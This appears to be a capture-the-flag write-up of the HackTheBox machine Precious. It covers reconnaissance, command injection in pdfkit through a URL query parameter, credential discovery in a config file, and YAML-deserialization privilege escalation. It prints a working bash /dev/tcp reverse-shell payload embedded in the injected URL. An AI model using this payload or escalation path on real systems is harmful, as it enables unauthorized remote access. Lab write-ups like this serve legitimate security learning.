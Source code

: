 # Precious.HTB-Write-Up
Write up report for the HackTheBox machine Precious.

- Initiated a service/network scan on the given HTB box with Nmap. `nmap -sV -sC 10.129.230.167`

![image](https://user-images.githubusercontent.com/61332852/226735722-c099909e-f7c7-4d18-a68b-b9c45b85dc47.png)


- Nmap shows that a HTTP (80) Port was open and an SSH(22) port as well. I first checked to see if there was any exploits pertaining to the services of the HTTP server that was hosting the website and as well as the SSH service running. I used the command `searchsploit` and as well searched online to double check that the results searchsploit was returning was accurate.  

![image](https://user-images.githubusercontent.com/61332852/226736215-366962c6-ee2b-488f-ad4f-17bad695c042.png)


After seeing there was no obvious exploits to take advantage of the next step was browsing the website running. First, I added the IP to /etc/hosts file to actually access the website.   



The website consisted of an input box that took a URL as input and the website would output that URL as a PDF File. I began running Gobuster to see if there was anything other than what was given on the home page but returned no results of any other directories on the web server.   

After messing with the input box, I opened BurpSuite to see what the application was doing when inputting a URL. After inputting a couple different random websites, the application was returning nothing but a “Cannot load remote URL” message. Thus, I began to start my own python webserver on my localhost. Python3 -m http.server 80 

After doing so it had converted the webserver, I had spun up to a pdf file.  

I used exiftool to see if there was any information I can get out of behind the PDF file that was downloaded from the website. Which gave us the application that was converting the URL to PDF. 


I used the searchsploit command again here to see if there was anything it would find for ‘pdfkit v0.8.6’. It returned nothing as well so I went to google search to see if there were any vulnerabilities with the given application. Then found that it was vulnerable to command injection a type of injection vulnerability.     

Reading more of the vulnerability and what we can start to do to exploit it this is what I found. “An application could be vulnerable if it tries to render a URL that contains query string parameters with user input”. After using this information, we can modify the URL to take a command as input to see if the application will run the command.  
After grabbing a reverse shell command, I inserted it as a string within the URL http://10.10.14.66:8910/?name=#{'%20`bash -c 'exec bash -I &>/dev/tcp/10.10.14.66/4444 <&1'`'}. Thus, getting me in as the user “Ruby” within the webserver.  

Going through all the files and directories that were given I first went to the users home folder to see if the user flag was there but didn’t consist of anything. I then used ls -la to find something I don’t see usually which was a directory called ‘.bundle’ which I then found a config file consisting of another user’s password.  

I began to login as the user henry with the given password. Successfully getting us in. I first checked henrys home directory to check for any flags shown there. Then giving us our first flag.  

To start privilege escalation towards getting the root flag I first checked what permissions Henry had as root on the machine.  

After checking the file, I then researched if there were any vulnerabilities with the Yaml file that was given. Then later finding that the Yaml file was vulnerable to “Yaml Deserialization Attack” allowing us to run arbitrary code within the yaml file. We can now go look for an exploit to run in the dependency file to execute.
 

After running ‘sudo /usr/bin/ruby /opt/update_dependencies.rb’ we can now go and run ‘/bin/bash -p’ to see if get into root as the user.
  

Thus, going into roots home folder to retrieve the root flag of the machine.  
